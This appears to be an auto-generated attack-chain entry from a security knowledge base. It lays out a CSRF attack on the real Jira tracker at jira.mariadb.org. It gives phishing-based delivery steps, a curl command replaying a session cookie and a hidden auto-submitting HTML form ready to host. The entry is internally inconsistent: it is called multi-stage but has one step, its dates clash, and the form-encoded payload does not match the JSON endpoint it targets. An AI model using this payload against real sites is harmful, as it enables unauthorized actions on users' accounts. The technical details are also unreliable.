

---
tags:
  - csrf
  - web
  - jira
  - atlassian
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
commands:
  - '[[commands/curl-csrf-test]]'
platforms:
  - Web
complexity: low
procedures:
  - '[[procedures/Exploit-CSRF-in-Atlassian-Jira]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  A low-severity CSRF vulnerability in MariaDB's public Jira instance allowing
  unauthorized actions on behalf of authenticated users via forged cross-site
  requests.
skill_level: intermediate
impact_level: low
id: 020340bf-47ad-4c6c-9e02-5c71a9d9894e
created_at: '2025-12-14T17:27:30.027Z'
updated_at: '2025-12-14T17:27:30.027Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# CSRF Exploitation in Atlassian Jira for Unauthorized Actions

Multi-stage attack chain demonstrating a complete attack workflow targeting a CSRF vulnerability in an Atlassian Jira instance, as reported in MariaDB's public bug tracker. The attack tricks an authenticated user into executing state-changing operations, such as creating issues or modifying configurations, without their knowledge.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Low |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for hosting and testing the malicious page

### Target Environment

- Web platform with Atlassian Jira instance (version vulnerable to CSRF, pre-upgrade)
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Publicly accessible Jira URL

### Initial Access Requirements

- No direct credentials needed; relies on social engineering to lure authenticated user
- Network position: Attacker hosts malicious page on controllable domain
- Prior access needed: None, but victim must be authenticated to Jira

## Detailed Attack Procedures

### Step 1: Forge and Deliver CSRF Request
procedure: [[procedures/Exploit-CSRF-in-Atlassian-Jira]]

**Objective**: Trick an authenticated Jira user into submitting a forged request that performs an unauthorized action, such as creating a new issue or modifying user settings.

**Instructions**: First, identify a state-changing endpoint in the Jira instance, such as the issue creation API. Then, craft a malicious HTML page with an auto-submitting form that mimics the legitimate request without anti-CSRF tokens. Host this page on an attacker-controlled site and use social engineering (e.g., phishing email) to lure the victim to visit it while authenticated to Jira.

To test the vulnerability manually, use [[commands/curl-csrf-test]] to simulate a forged request with stolen session cookies:

```bash
curl -X POST -b "JSESSIONID=abc123" -H "Content-Type: application/json" https://jira.mariadb.org/rest/api/2/issue/ -d '{"fields":{"project":{"key":"PROJ"},"summary":"Test Issue","description":"CSRF Test","issuetype":{"name":"Task"}}}' -v
```

Embed the following HTML in the malicious page for automatic submission:

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrf-form" action="https://jira.mariadb.org/rest/api/2/issue/" method="POST" style="display:none;">
  <input type="hidden" name="fields[project][key]" value="PROJ">
  <input type="hidden" name="fields[summary]" value="Malicious Issue">
  <input type="hidden" name="fields[description]" value="Created via CSRF">
  <input type="hidden" name="fields[issuetype][name]" value="Task">
</form>
<script>document.getElementById('csrf-form').submit();</script>
</body>
</html>
```

**Expected Output**: The Jira instance processes the request as if submitted by the victim, creating the issue or performing the action without error.

**Success Indicators**:
- New issue or modification appears in the victim's Jira account
- No anti-CSRF token validation error in server response
- Victim remains unaware of the action

## Attack Chain Summary

### Key Achievements

1. Successful forgery of cross-site request bypassing Jira's protections
2. Execution of unauthorized action on behalf of authenticated user
3. Low detection risk due to legitimate-looking request

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01*
